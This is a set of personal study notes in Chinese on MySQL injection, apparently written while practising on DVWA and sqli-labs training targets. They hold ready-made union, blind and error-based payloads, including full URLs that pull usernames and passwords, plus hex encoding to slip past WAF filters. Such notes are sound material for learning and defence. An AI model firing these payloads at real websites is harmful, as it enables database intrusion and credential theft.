 # sql注入 

逻辑当中存在 恒真的 判断条件则会返回所有的信息  

or 1=1 

or 1  

or "1"

````
select * from xxx where username="Bob" or 1;
````







**注释当中执行代码**

```
select /*!user*/ from dvwa.users;
```



在sql语句当中的语法其实是存在 运算的

```
select * from dvwa.users where first_name="Bob"or 1+'1'=2 union select 1,2,3,4,'5g',6,7,8 order by 5\G;
```

和 

```
select * from dvwa.users where first_name="Bob"or 1+'1'=3 union select 1,2,3,4,'5g',6,7,8 order by 5\G;
```

的返回结果就是不一样的。







sql注入的分类 

```
 •基于布尔SQL盲注

​ •基于时间的SQL盲注

​ •基于报错的SQL盲注

基于如何处理输入的SQL查询（数据类型）

•基于字符串

•数字或整数为基础的

基于程度和顺序的注入(哪里发生了影响)

★一阶注射

★二阶注射

一阶注射是指输入的注射语句对WEB直接产生了影响，出现了结果；二阶注入类似存储型XSS，是指输入提交的语句，无法直接对WEB应用程序产生影响，通过其它的辅助间接的对WEB产生危害，这样的就被称为是二阶注入.
基于注入点的位置上的

▲通过用户输入的表单域的注射。

▲通过cookie注射。

▲通过服务器变量注射。 （基于头部信息的注射）
```



and 和 or 的优先级的不同 

and的优先级 > or 



desc 的用法 

展现mysql表当中字段结构 







几种常见的数据连接函数  

1. concat(str1,str2,...)——没有分隔符地连接字符串
2. concat_ws(separator,str1,str2,...)——含有分隔符地连接字符串
3. group_concat(str1,str2,...)——连接一个组的所有字符串，并以逗号分隔每一条数据





![image-20210715165526780](D:\Users\80303920\Pictures\typora图床\image-20210715165526780.png)

查询数据库

```
select schema_name from information_schema.schemata ;
```

show databaes;



查询数据表

```
select table_name from information_schema.tables where table_schema="" ;
```

show tables;



查询表当中的列 

```
select column_name from information_schea.columns where table_name="";
```



**进行注入的时候使用 "" 比较少见 一般是将其转换为 0x 的十六进制形式** 

在mysql当中都可以通用十六进制来进行

```
select concat_ws(0x23,version(),2);
```

使用十六进制可以绕过waf的字符串过滤



**另外进行union注入**的时候最好选择将注入语句放在最后 

```
index.php?id=1' union select 1,2,table_name from information_schema.tables where table_schema= 0x7365637572697479 %23

index.php?id=1' union select 1,2,table_name from information_schema.tables where table_schema= 0x7365637572697479 %23
```



使用concat 将查询到的数据进行集合

三个函数 的分析 

concat 

concat_ws 使用分隔符 进行隔离  

group_concat 将一组数据使用分隔符进行隔离   

```
select group_concat(0x23,1,table_name) from information_schema.tables where table_schema="security";
```





示例 

```
192.168.233.140:83/Less-1/index.php?id=-1' union select 1,1,group_concat(table_name) from information_schema.tables where table_schema= 0x7365637572697479 %23
```



`# 可以和--+ 进行相互替换 但是注意有时候需要 #进行urlencode 为 %23

 问题  

limit在注入当中的应用

注意闭合其中给的双引号之类的 



在包含字符当中加上 () 几乎是相同的 

```
select username from users;
select (username) from users;
```



### 基于布尔类型 

注意盲注的类型都是有条件进行筛选，而不是直接逻辑判断  

![image-20210723150713443](D:\Users\80303920\Pictures\typora图床\image-20210723150713443.png)



```
select case when {判断语句} then sleep(3) else 1 end;
select case when (ascii(substr((select version()),1,1))=58) then sleep(3) else end;
```

​			

```
select case When ascii(substr(concat(user,password),1,1))>53 THEN 1 else 0 end from users limit 0,1;
```



使用case when只能在基于时间的盲注当中存在一些，其他没什么用 

```
select user from users where user="admin" and 1= (select case when ascii(substr((select User from mysql.user limit 0,1),1,1)) =97 then 1 else 0 end);
```





通常是在sql语句当中加入逻辑根据返回的结果来判断

 一般的判断语句为 

````
and  
and 1= (select 1 f)
or 
if 
````

case语句 



字符串的截取函数 

```
substr 
mid 
cast 
```







### 报错进行打印内容 

**extractvalue** 

extracvalue从目标的XML文件当中查询的字符串 

```
extractvalue(1,concat(0x7e,(select @@version),0x7e))

http://192.168.233.140:83/Less-5/?id=1%27%20and%20extractvalue(1,concat(0x7e,(select%20concat(username,password)%20from%20security.users%20limit%201,1),0x7e))--+
```

 



**updatexml** 

```
updatexml(1,concat(0x7e,(select @@version),0x7e),1)

http://192.168.233.140:83/Less-5/?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20concat(username,password)%20from%20security.users%20limit%201,1),0x7e),1)--+
```

updatexml的本意是更新xpath文档当中的字符串，我们的xpath_string写错的时候就会出现错误 

**name_const**  

感觉平时使用的比较少 

```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x

http://192.168.233.140:83/Less-5/?id=1%27%20and%20select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x--+
```

**floor()+count()+group by**



问题 

比较好的文章

https://www.freebuf.com/articles/web/175049.html

### orderby 注入

1、通过返回的数据的排列

2、通过if else来进行布尔判断注入的成功与否 
